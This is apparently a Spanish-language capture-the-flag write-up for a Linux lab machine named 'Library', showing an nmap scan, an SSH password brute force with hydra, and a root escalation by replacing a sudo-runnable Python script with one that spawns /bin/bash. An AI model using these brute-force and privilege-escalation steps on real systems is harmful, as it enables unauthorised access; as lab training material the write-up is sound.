

🔹Maquina: Library
📅 Publicado el 12/12/2025 | Categoría: LINUX
📝 Descripción
Este reto consiste en comprometer una máquina Linux en un entorno controlado. No se proporciona una flag directa, pero el objetivo es obtener acceso privilegiado (root) y entender el vector de escalada.
🔍 Análisis inicial
El análisis comenzó con un reconocimiento básico utilizando herramientas de enumeración para comprender los servicios expuestos. Una vez dentro del sistema como usuario limitado, buscamos posibles vectores de escalada de privilegios.
sudo nmap -p- -open -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_ 256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
en el http hacemos descubrimiento con gobuster, con el cual encontramos index.php o haciendo un lfi encontramos JIFGHDS87GYDFIGD
Suponiendo que es un acontraseña hacemos fuerza bruta
hydra -L /usr/share/wordlists/rockyou.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 8 -I
[22][ssh] host: 172.17.0.2 login: carlos password: JIFGHDS87GYDFIGD
ya tenemos las una via de entrada, entonces, nos conectamos vía SSH como el usuario carlos a la IP de la máquina vulnerable:
ssh carlos@172.17.0.2
# Password: JIFGHDS87GYDFIGD
Ya con acceso, buscamos si podemos ejecutar un script como root.
sudo -l
/usr/bin/python3 /opt/script.py
💣 Explotación / Resolución
Efectivamente, pero como no podemos modificar script.py lo eliminamos
carlos@93837c0bf76e:/opt$ rm script.py
rm: remove write-protected regular file 'script.py'? y
carlos@93837c0bf76e:/opt$ nano script.py
carlos@93837c0bf76e:/opt$ cat script.py
import os; os.system("/bin/bash")
carlos@93837c0bf76e:/opt$ sudo /usr/bin/python3 /opt/script.py
/usr/local/bin/privileged_exec
# Resultado: spawnea una shell como root
whoami
root
Gracias a esto obtuvimos acceso directo como usuario root.
🏆 Resultado
Conseguimos acceso como root, pero no encontramos una flag en la máquina.
Aun así, el objetivo principal de escalada de privilegios fue completado con éxito.